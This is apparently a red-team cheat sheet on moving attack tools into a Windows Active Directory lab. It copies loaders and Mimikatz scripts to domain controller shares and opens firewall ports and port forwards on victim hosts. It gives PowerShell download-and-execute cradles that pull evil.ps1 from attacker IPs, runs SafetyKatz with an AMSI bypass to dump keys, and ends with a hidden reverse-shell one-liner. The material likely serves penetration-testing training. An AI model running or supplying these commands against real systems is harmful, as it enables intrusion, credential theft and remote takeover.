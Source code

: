 # Transfer Files

### SMB Shares

Use Y instead of F in echo to overwrite a file that is already present.

```batch
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
:: Powershell 
Copy-Item C:\AD\Tools\Invoke-Mimi-keys.ps1 \\dcorp-adminsrv\C$\'Program Files'  
```

### HTTP Server

Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```batch
:: Attacker Machine
python3 -m http.server -port 80
:: Open the port where the files are hosted. Need Admin Access
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
:: Verify if port is open or closed
netstat -an
```

Port forward to avoid firewall using netsh on target machine

<pre class="language-batch"><code class="lang-batch">:: Victim Machine
<strong>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
</strong><strong>
</strong></code></pre>

Download the file on target machine

<pre class="language-powershell"><code class="lang-powershell"># Download and store
<strong>(New-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/&#x3C;File>', '&#x3C;Dest Path>')
</strong>
# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/&#x3C;File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
</code></pre>

More options

```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

PowerShell v3+

```powershell
# UseBasicParsing is important sometime
# To save inside the victim machine
iwr http://172.16.100.83/Loader.exe -UseBasicParsing - -OutFile Loadder.exe
# Directly execute in memory
iex (iwr 'http://192.168.230.1/evil.ps1' -UseBasicParsing)
```

Reverse Shell Execution by transferring file. Same can be used for bind shell too by changing **-Reverse** to **-Bind**. Power here is the function name to call and can be modified.

```powershell
powershell -nop -w hidden -c "IEX (iwr 'http://172.16.100.38/Invoke-PowerShellTcp.ps1' -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.38 -Port 443
```
